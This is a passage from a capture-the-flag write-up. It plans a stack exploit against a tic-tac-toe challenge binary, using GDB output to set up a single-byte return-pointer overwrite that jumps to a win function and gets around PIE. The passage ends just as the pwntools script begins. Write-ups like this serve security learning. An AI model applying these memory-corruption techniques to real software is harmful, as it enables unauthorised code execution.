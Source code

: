 ```

## Planning the Exploit:

At this point, my approach is fairly straightforward. I need to target the
return pointer for overwrite, and because of the presence of PIE, I should aim
for a partial overwrite. To check how viable this is, I do a run of the
program in GDB/GEF where I simply input nine x's and o's, then check where the
read_board function returns to normally in comparison with the address of the
win function.  
```  
  0x564c588a8601 <read_board+345> call   0x564c588a8449 <print_winner>  
  0x564c588a8606 <read_board+350> nop  
  0x564c588a8607 <read_board+351> leave  
→ 0x564c588a8608 <read_board+352> ret  
  ↳  0x564c588a8645 <main+60>        mov    edi, 0x0  
     0x564c588a864a <main+65>        call   0x564c588a8030 <_exit@plt>  
     0x564c588a864f <win+0>          push   rbp  
     0x564c588a8650 <win+1>          mov    rbp, rsp  
     0x564c588a8653 <win+4>          sub    rsp, 0x70  
     0x564c588a8657 <win+8>          mov    esi, 0x0  
─────────────────────────────────────────────────────────────────── threads
────  
[#0] Id 1, Name: "chall", stopped 0x564c588a8608 in read_board (), reason:
BREAKPOINT  
───────────────────────────────────────────────────────────────────── trace
────  
[#0] 0x564c588a8608 → read_board()  
[#1] 0x564c588a8645 → main()  
────────────────────────────────────────────────────────────────────────────────  
gef➤  x/gx $rsp  
0x7ffebc7e6df8: 0x0000564c588a8645  
gef➤  x/gx win  
0x564c588a864f <win>:   0x70ec8348e5894855  
gef➤  
```  
This turns out to be very convenient; it returns out near the end of the main
function at address 0x0000564c588a8645, and the win function is at
0x0000564c588a864f. As a result, a single-byte overwrite should work. In
addition, the byte that I need to overwrite is the byte of 'O'. This means
that once it is input, the program will return out to the win function that
has been newly placed in the return pointer, which is ideal.

Finally, I do need to figure out exactly what I need to overwrite the counter
stack variable with in order to overwrite the lowest byte of the return
pointer. I did it by looking at the stack offset of the board variable in
Ghidra, which is -0x13, so the appropriate offset should be at 0x13. 1 is
getting added to the value in counter before it is used to determine where the
stack write occurs, so the value to write to the counter variable should be
0x12. The fact that this is low also explains why entering a large amount of
bad characters in ascii typically fails to generate a segfault; the return
pointer is being overshot completely.

## Writing the Exploit

At this point, the exploit itself is very straightforward. I just need to pad
it with nine bad characters, include a b'\x12' to overwrite the counter, the
add an 'O' in order to partial overwrite the return pointer with the function.
Here is the full exploit script:  
```  
from pwn import *
